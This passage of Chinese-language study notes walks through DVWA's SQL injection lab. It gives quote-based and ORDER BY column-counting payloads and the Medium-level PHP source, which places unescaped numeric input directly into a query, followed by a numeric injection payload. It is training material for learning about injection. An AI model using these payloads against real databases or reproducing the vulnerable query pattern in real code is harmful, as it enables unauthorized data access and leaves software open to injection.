 - payload:`1' or '1'='1`
- 判断字段数目（2个字段）
            - `1' or 1 order by 1 #`:按第一列排序
            - `1' or 1 order by 2 #`:按第二列排序
            - `1' or 1 order by 3 #`:出现错误（`Unknown column '3' in 'order clause'`）没有第三列
- <img src="./pics/sql-l.png">
2. Medium
```
<?php
if( isset( $_POST[ 'Submit' ] ) ) {
    // Get input
    $id = $_POST[ 'id' ];
    $id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query) or die( '<pre>' . mysqli_error($GLOBALS["___mysqli_ston"]) . '</pre>' );
    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Display values
        $first = $row["first_name"];
        $last  = $row["last_name"];
        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }
}
// This is used later on in the index.php page
// Setting it here so we can close the database connection in here like in the rest of the source scripts
$query  = "SELECT COUNT(*) FROM users;";
$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
$number_of_rows = mysqli_fetch_row( $result )[0];
mysqli_close($GLOBALS["___mysqli_ston"]);
?>
```
- 分析:不需要闭合单引号,不是字符型注入,而是数字型,会报错
- payload: `Submit=Submit&id=1 or 1=1#` 